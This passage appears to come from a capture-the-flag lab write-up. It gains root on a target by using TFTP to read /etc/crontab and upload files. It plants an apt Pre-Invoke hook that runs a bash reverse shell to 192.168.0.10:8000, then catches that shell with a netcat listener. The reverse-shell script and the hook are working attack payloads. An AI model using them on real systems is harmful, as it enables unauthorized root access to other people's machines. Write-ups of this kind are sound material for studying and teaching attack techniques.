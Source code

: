 On FTP it can be seen that the file is indeed there and the UID is 0, so files get uploaded with root permissions:
```markdown
-rw-rw-rw-    1 0   0   0   Jun 20 20:11 test
```

Lets see if there are **Cronjobs** for root to abuse:
```markdown
tftp> get /etc/crontab
```
```markdown
(...)
\*/5 *   * * *    root    apt update 2>&1 >/var/log/apt/custom.log
30 23    * * *    root    apt upgrade -y 2>&1 >/dev/null
```

Root runs `apt update` every 5 minutes. When creating a pre-invoke script for `apt` it could eventually lead to command execution.

#### Exploiting Advanced Packaging Tool (apt)

Lets create a configuration file in _/etc/apt/_ that I will call _00shell_ with the following content:
```markdown
APT::Update::Pre-Invoke {"/bin/bash /tmp/shell.sh"}
```

The _shell.sh_ starts a reverse shell to the guest on port 8000:
```markdown
#!/bin/bash

bash -i >& /dev/tcp/192.168.0.10/8000 0>&1
```

Uploading the files:
```markdown
tftp> put 00shell /etc/apt/apt.conf.d/00shell

tftp> put shell.sh /tmp/shell.sh
```

Starting the listener on the guest 192.168.0.10:
```markdown
nc -lvnp 8000
```

After 5 minutes the listener on the guest on port 8000 starts a reverse shell session as root on the host system and we can read _root.txt_!
